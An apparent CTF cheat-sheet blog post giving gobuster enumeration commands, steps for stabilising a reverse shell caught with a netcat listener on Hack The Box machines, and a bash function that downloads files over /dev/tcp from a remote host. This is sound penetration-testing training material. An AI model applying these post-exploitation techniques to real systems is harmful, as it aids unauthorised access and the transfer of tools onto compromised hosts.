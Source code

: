 ```yaml
---
title: "CTF All The Things"
header:
  teaser: /assets/images/2021-10-13-21-39-10.png
toc: true
toc_sticky: true
excerpt_separator:  <!--more-->
categories:
  - CTF
tags:
  - 
  - 
  - 
---
```


![ctf](/assets/images/2021-10-13-21-39-10.png)

# Recon

## Gobuster

Install:

```text
apt-get install gobuster
```

Mode:

```text
gobuster dns -d <target domain> -w <wordlist>
gobuster dir -u <target url> -w <wordlist>
gobuster vhost -u <target url> -w <wordlist>
```

File type:

```text
gobuster dir -u <target url> -w <wordlist> -x .php
```

Ignore certificate errors:

```text
gobuster dir -u <target url> -w <wordlist> -k
```

Specify cookie:

```text
gobuster dir -u <target url> -w <wordlist> -c 'session=123456'
```

# Shell

## Upgrade

First job is to upgrade our terminal to something more useable:

Check if Python is available:

```text
www-data@writer:/$ which python
which python
www-data@writer:/$ which python3
which python3
/usr/bin/python3
```

Spawn proper session:

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Ctrl+Z to background then set stty:

```sh
tomcat@seal:/var/lib/tomcat9$ ^Z
zsh: suspended  nc -nlvp 1337
┌──(root💀kali)-[~/htb/seal]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 1337
```

Sort terminal, check local first:

```sh
┌──(root💀kali)-[~/htb/writer]
└─# stty size          
52 237

┌──(root💀kali)-[~/htb/writer]
└─# echo $TERM                                                            
xterm-256color
```

Then set on box:

```sh
tomcat@seal:/var/lib/tomcat9$ export TERM=xterm
tomcat@seal:/var/lib/tomcat9$ stty rows 52 cols 237
```

## Bash wget

```sh
function __wget() {
    read proto server path <<<$(echo ${1//// })
    DOC=/${path// //}
    HOST=${server//:*}
    PORT=${server//*:}
    [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
 
    exec 3<>/dev/tcp/${HOST}/$PORT
    echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
    (while read line; do
        [[ "$line" == $'\r' ]] && break
    done && cat) <&3
    exec 3>&-
}
```